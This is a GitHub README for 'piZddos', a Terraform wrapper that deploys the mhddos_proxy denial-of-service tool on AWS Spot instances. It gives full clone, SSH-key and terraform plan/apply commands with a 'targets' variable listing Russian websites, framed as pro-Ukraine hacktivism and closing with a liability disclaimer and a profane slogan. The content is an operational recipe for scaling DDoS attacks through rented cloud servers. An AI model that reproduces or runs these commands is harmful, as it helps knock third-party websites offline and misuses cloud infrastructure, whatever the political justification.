 # piZddos

piZddos is a terraform wrapper for https://github.com/porthole-ascend-cinnamon/mhddos_proxy.git that makes use of AWS Spot instances.


## Installation

Simply clone this repo for installation

```bash
git clone https://github.com/icyspicyyy/piZddos.git
```

## Usage

- et up  [AWS CLI ](https://docs.aws.amazon.com/cli/latest/userguide/cli-chap-configure.html) and [terraform](https://learn.hashicorp.com/tutorials/terraform/install-cli).
- Generate SSH key and copy it's content:
```bash
  ssh-keygen
  cat ~\.ssh\id_rsa.pub
```
- put params to `variables.tf` file or run from cli
```bash
terraform plan -var "price=0.0019" -var "ssh_key=YOUR_KEY_CONTENT" -var "instance_count=3" -var "ami=ami-0d527b8c289b4af7f"  -var "region=eu-central-1" -var "targets=https://site.ru https://site2.ru"
terraform apply -var "price=0.0019" -var "ssh_key=YOUR_KEY_CONTENT" -var "instance_count=3" -var "ami=ami-0d527b8c289b4af7f"  -var "region=eu-central-1" -var "targets=https://site.ru https://site2.ru"

```

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Warning!
You are using provided scripts at your own risk. Author does not bear any responsibility in case of misuse.

Slava Ukraine! Glory to Ukraine!
Русский военный корабль, иди нахуй!
